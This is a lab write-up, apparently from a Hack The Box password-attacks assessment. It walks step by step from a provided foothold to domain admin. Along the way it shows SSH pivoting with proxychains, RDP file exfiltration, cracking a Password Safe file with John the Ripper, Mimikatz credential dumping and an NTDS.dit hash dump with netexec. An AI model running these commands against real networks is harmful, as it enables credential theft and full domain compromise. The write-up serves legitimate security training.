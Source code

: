 # Password Attacks - Skills Assessment Write-up

## Overview

In this assessment, we are provided with initial credentials for user **Betty Jayde** (`Texas123!@#`). These credentials serve as a foothold for accessing the network and pivoting to internal systems.



## Host Enumeration

Start by scanning the target host:

```bash
sudo nmap -sS -p- -T4 10.129.X.X
```

### Results:
```
PORT     STATE SERVICE
22/tcp   open  ssh
```

Only SSH is open. Based on the given name format, we attempt username enumeration using patterns like:

- `firstnamelastname`
- `firstinitiallastname`
- `firstname.lastname`

Eventually, we identify the correct username and successfully authenticate:

```bash
ssh -D 9050 <DMZ_username>@10.129.X.X
```

![](screenshots/Picture1.png)

We add the `-D 9050` flag to enable **dynamic port forwarding**, as this host is our pivot into the internal network.



## Host Recon & Credential Discovery

Once on the host (`DMZ01`), we check `.bash_history` and discover an SSH command with credentials:

```bash
sshpass -p ***** ssh <domain_user1>@file01
```

These credentials allow access to another machine on the internal network.



## Internal Access via RDP

Configure **proxychains** by adding:

```ini
socks4 127.0.0.1 9050
```

Then, initiate an RDP session using the found credentials:

```bash
proxychains xfreerdp /v:172.16.119.7 /u:<domain_user1> /p:*****
```

![](screenshots/Picture2.png)

A certificate mismatch warning appears, but we proceed. We successfully gain GUI access to the system.



## Password Store Extraction

On the desktop, a **Password Safe** application was spotted.

![](screenshots/Picture3.png)

While no files were saved in the app directly, a `.psafe3` file was found by exploring **Recent Files** in the GUI.

![](screenshots/Picture4.png)

We reconnect via RDP and mount a shared folder to exfiltrate the file:

```bash
proxychains xfreerdp /v:172.16.119.7 /u:<domain_user1> /p:***** /drive:/home/htb-ac-1689766,share
```

![](screenshots/Picture5.png)



## Cracking the Password Safe

Using `pwsafe2john`, we convert the `.psafe3` file into a hash and crack it using John the Ripper:

```bash
pwsafe2john <file.psafe3> > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![](screenshots/Picture6.png)



## Harvested Credentials

The decrypted database contains several users and old passwords.

![](screenshots/Picture7.png)

These can be tested to gain additional access.



## Lateral Movement & Privilege Escalation

Using credentials for one of that domain users `<domain_user2>`, we can RDP into the host again:

```bash
proxychains xfreerdp /v:172.16.119.7 /u:<domain_user2> /p:***** /drive:/home/htb-ac-1689766,share
```

This user has administrative access. We leverage this to drop and execute **Mimikatz** for credential dumping:

```powershell
cd C:\Temp\x64
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

We obtain cleartext credentials and NTLM hashes, including for another domain user `<domain_user3>`.



## Domain Admin Access

Using `<domain_user3>`'s credentials, we authenticate to the **Domain Controller**:

```bash
proxychains xfreerdp /v:172.16.119.11 /u:<domain_user3> /p:*****
```

![](screenshots/Picture8.png)

On the system, we confirm group membership:

```powershell
net user <domain_user3>
```

![](screenshots/Picture9.png)

Output confirms `<domain_user3>` is part of **Domain Admins**.



## Dumping NTDS.dit (Domain Hashes)

We use `ntdsutil` via **nxc (netexec)** to dump domain hashes:

```bash
sudo proxychains -q nxc smb 172.16.119.11 -u <domain_user3> -p ***** -M ntdsutil
```

![](screenshots/Picture10.png)

Dumped NTLM hashes include:

```
Administrator:500:<LM>:<NT>
Guest:501:<LM>:<NT>
<domain_user1>:1105:<LM>:<NT>
<domain_user2>:1107:<LM>:<NT>
<domain_user3>:1106:<LM>:<NT>
```

Most importantly, the NT hash of `nexura\Administrator` is obtained — this grants complete control over the domain.



## Conclusion

We successfully:

- Gained initial access using provided credentials.
- Pivoted through the environment via dynamic port forwarding.
- Extracted and cracked a password store.
- Performed lateral movement using harvested credentials.
- Escalated privileges to **Domain Admin**.
- Dumped the **NTDS.dit** to obtain all domain hashes.

This assessment demonstrated key skills in password attacks, pivoting, RDP tunneling, and post-exploitation techniques.

